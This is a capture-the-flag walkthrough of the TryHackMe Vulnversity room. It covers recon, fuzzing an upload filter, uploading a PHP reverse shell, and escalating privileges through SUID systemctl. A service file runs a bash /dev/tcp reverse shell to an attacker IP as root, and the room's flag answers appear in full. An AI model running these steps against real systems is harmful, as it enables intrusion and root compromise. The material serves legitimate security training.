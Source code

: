 ```yaml
---
title: Vulnversity Walkthrough
date: 2024-01-03 11:33:00 +0800
categories: [Walkthrough]
tags: [TryHackMe]
---
```


## Task 1 Deploy Machine

Deploy the victim machine
Connect the attacking machine with OpenVPN

## Task 2 Reconnaissance 

start nmap scan 
```bash
nmap -sV 10.10.160
```
  <img src="/images/vulnv/vuln1.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

### Q1: Scan the box; how many ports are open?
Answer: 6

### Q2: What version of the squid proxy is running on the machine?

Answer: 3.5.12

### Q3: How many ports will Nmap scan if the flag -p-400 was used?

Answer: 400

### Q4: What is the most likely operating system this machine is running?

Answer: Ubuntu

### Q5: What port is the web server running on?

Answer: 3333

### Q6: What is the flag for enabling verbose mode using Nmap?

Answer: -v

## Task 3 Locating directories using Gobuster

Download gobuster :
```bash
sudo apt-get install gobuster
```
Download Directory wordlist from dirbuster github :
```bash
wget https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-1.0.txt
```
Run gobuster :
```bash
gobuster dir -u http://[Machine_IP]:3333 -w directory-list-1.0.txt
```

  <img src="/images/vulnv/vuln2.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

### Q1: What is the directory that has an upload form page?

Answer: /internal/

## Task 4 Compromise the Webserver

### Q1: What common file type you’d want to upload to exploit the server is blocked? Try a couple to find out.

Answer: .php

Intercept the POST request with burpsuite

  <img src="/images/vulnv/vuln3.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Click on action then send to intruder OR Ctrl+l
Here we can modify the request

  <img src="/images/vulnv/vuln4.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

locate filename and click on add§ before and after the extension

  <img src="/images/vulnv/vuln5.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />
  <img src="/images/vulnv/vuln6.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Click on Payloads and add all possible extensions to the payload

  <img src="/images/vulnv/vuln7.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Click on start attack and see the Response for each extension

  <img src="/images/vulnv/vuln8.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

We can see that the .phtml is accepted as input

  <img src="/images/vulnv/vuln9.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

### Q2: What extension is allowed after running the above exercise?

Answer: .phtml

Now we need to install the reverse shell script

```bash
wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```
change the extension for this file to .phtml
change the IP address in the script to our kali machine IP and listening port

$ip = ‘Kali_IP’;
$port = 1234;

  <img src="/images/vulnv/vuln10.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Now before uploading this shell-script to the website we need to start listening on the port we defined earlier
```bash
nc -lvnp 1234
```
Upload the file to the website, then navigate to this URL :
```
http://[Machine_IP]:3333/internal/uploads/php-reverse-shell.phtml
```
Now we will see that the shell has popped in our netcat listner
  <img src="/images/vulnv/vuln11.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />
```bash
ls 
cd home
ls
```
  <img src="/images/vulnv/vuln12.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

### Q3: What is the name of the user who manages the webserver?

Answer: bill
```bash
cd bill
ls
cat user.txt
```
Now we navigate to bill directory and look for the flag
  <img src="/images/vulnv/vuln13.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

### Q4: What is the user flag?

Answer: 8bd7992fbe8a6ad22a63361004cfcedb

## Task 5 Privilege Escalation
Since we already have a shell in the machine, we will use it now to find files that have root privilege

```bash
find / -perm -u=s -exec ls -l {} \; 2>/dev/null

```
  <img src="/images/vulnv/vuln14.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

### Q1: On the system, search for all SUID files. Which file stands out?

Answer: /bin/systemctl

What is systemctl ?
systemctl control the systemd system and service manager
So next step is to create on our linux machine a service that grant us a shell
lets start by creating the service
```bash
touch root.service
gedit root.service
```
here is the payload inside root.service file

```
[Unit]
Description= testing priv-esca

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c ‘bash -i >& /dev/tcp/10.14.93.236/4444 0>&1’

[Install]
WantedBy=multi-user.target
```
Now we need to start a http server on our linux machine to transfer the file to target machine 
```bash
python3 -m http.server — bind [Kali_IP] 8080
```
On the target machine shell we need to navigate to /tmp and download the service
```bash
cd tmp
wget http://[Kali_IP]:8080/root.service
```
  <img src="/images/vulnv/vuln15.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Enable the service command 
```bash
/bin/systemctl enable /tmp/root.service
```
  <img src="/images/vulnv/vuln16.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

On another terminal in our kali we need to start listening on the port we have previously set in root.service
```bash
nc -lvnp 4444
```
  <img src="/images/vulnv/vuln17.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Finally we need to start the service and we will get our shell in kali terminal
```bash
systemctl start root.service
```
  <img src="/images/vulnv/vuln18.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Finally we acces the root directory and extract the flag
```bash
cd root
ls
cat root.txt
```

  <img src="/images/vulnv/vuln19.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

### Q2: What is the root flag value?

Answer: a58ff8579f0a9270368d33a9966c7fd5